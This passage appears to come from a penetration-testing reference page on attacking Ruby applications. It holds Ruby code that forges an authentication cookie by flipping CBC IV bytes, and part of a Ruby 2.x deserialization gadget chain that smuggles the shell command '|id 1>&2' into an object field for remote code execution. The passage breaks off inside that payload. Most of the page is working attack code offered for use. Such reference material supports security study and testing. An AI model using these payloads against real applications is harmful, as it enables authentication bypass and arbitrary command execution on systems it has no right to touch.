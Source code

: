 If we can modify the IV value, we are able to change the first block of the cleartext without impacting the signature. The only thing we need to keep in mind is that a **XOR is used between the IV and the first block**. Any modification of the cleartext will need to be XOR'ed with the IV. So if we change the value of the first byte of the first block from a to b, we will need to change the first byte of the IV by XORing with a^b.

Here is the example code:

```ruby
require 'uri'
require 'base64'

iv = "QA2vUfmm%2FNE%3D"
auth = "Y2RtaW5pc3RyYXRvci0tEnzv4HnJXPA%3D"

decoded_iv = Base64.decode64(URI.unescape(iv))
decoded_auth = Base64.decode64(URI.unescape(auth))

# Craft the payload
decoded_iv[0] = ('a'.ord^'c'.ord^decoded_iv[0].ord).chr
decoded_auth[0] = 'a'

new_iv = URI.escape(Base64.strict_encode64(decoded_iv), "+=/")
new_auth = URI.escape(Base64.strict_encode64(decoded_auth), "+=/")

puts("iv = " + new_iv)
puts("auth = " + new_auth)
```

## Ruby 2.x RCE Deserialization
Use this payload (from [here](https://www.elttam.com.au/blog/ruby-deserialization/)):

```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

```